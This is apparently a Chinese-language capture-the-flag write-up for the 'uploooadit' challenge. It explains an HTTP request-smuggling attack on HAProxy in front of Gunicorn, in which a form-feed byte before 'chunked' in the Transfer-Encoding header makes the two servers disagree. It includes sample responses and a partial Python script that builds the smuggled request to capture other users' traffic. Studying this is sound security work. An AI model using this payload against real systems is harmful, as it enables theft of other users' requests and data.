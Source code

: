 返回

```html
HTTP/1.1 201 CREATED
Server: gunicorn/20.0.0
Date: Sat, 16 May 2020 06:34:37 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 0
Via: haproxy
X-Served-By: ip-10-0-0-105.us-east-2.compute.internal

HTTP/1.1 400 Bad Request
Content-Type: text/html
Content-Length: 183
Via: haproxy
X-Served-By: ip-10-0-0-105.us-east-2.compute.internal

<html>
  <head>
    <title>Bad Request</title>
  </head>
  <body>
    <h1><p>Bad Request</p></h1>
    Invalid Method &#x27;Invalid HTTP method: &#x27;ET&#x27;&#x27;
  </body>
</html>
```

> if we malform the value of `Transfer-Encoding` a little bit by pre-pending non-printable character like “\x0b” (vertical tab) or “\x0c” (form feed), HAProxy will ignore the header and give precedence to CL header but when this is passed to Gunicorn it will parse the TE header correctly and give precedence to that

然后我们可以挂一个监视，因为它会写入一个对应 uuid 的文件（不能从我们这里发，要从 Haproxy发）来偷流量

```
import socket
import ssl
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
 
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def https():
    context = ssl.create_default_context()
    data = b'''4
abcd
0

POST /files/ HTTP/1.1
Host: uploooadit.oooverflow.io
X-guid: 77777777-3333-4444-7777-333344447776
Content-Type: text/plain
Content-Length: 385


'''.replace(b'\n', b'\r\n')
    p = b'''POST /files/ HTTP/1.1
Host: uploooadit.oooverflow.io
Content-Type: text/plain
X-guid: 12345678-2345-2334-2478-1234567890ac
Content-Length: ''' + str(len(data)).encode() + b'''
Transfer-Encoding: \x0cchunked

'''
    p = p.replace(b'\n', b'\r\n') + data
```